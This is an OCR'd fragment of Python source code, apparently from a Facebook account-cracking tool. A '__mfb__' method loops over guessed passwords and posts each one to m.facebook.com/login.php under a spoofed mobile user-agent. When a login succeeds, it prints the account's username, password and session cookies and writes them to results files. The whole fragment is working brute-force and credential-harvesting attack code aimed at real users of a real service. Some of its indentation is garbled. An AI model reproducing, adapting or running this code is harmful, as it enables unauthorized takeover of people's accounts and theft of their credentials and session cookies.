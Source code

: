                 cp.append(wrt)

                open('results/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)

                break

            else:

                continue

        loop += 1

    def __mfb__(self, user, __yan__):

        global ok,cp,loop

        sys.stdout.write('\r [%s*%s] [crack] %s/%s -> OK-:%s - CP-:%s '%(O,N,loop,len(self.id),len(ok),len(cp))),

        sys.stdout.flush()

        for pw in __yan__:

            pw = pw.lower()

            try: os.mkdir('results')

            except: pass

            try:

             _kontol = open('YNTKTS.txt', 'r').read()

            except (KeyError, IOError):

             _kontol = 'Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'

            ses = requests.Session()

            ses.headers.update({"Host":"m.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","user-agent":_kontol,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8","accept-encoding":"gzip, deflate","accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"})

            p = ses.get("https://m.facebook.com")

            b = ses.post("https://m.facebook.com/login.php", data={"email": user, "pass": pw, "login": "submit"})

            if "c_user" in ses.cookies.get_dict().keys():

             kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])

                print '\r  %s* --> %s|%s|%s                 %s' % (H,user,pw,kuki,N)

                wrt = ' [✓] %s|%s|%s' % (user,pw,kuki)

                ok.append(wrt)

                open('results/OK-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)

                break
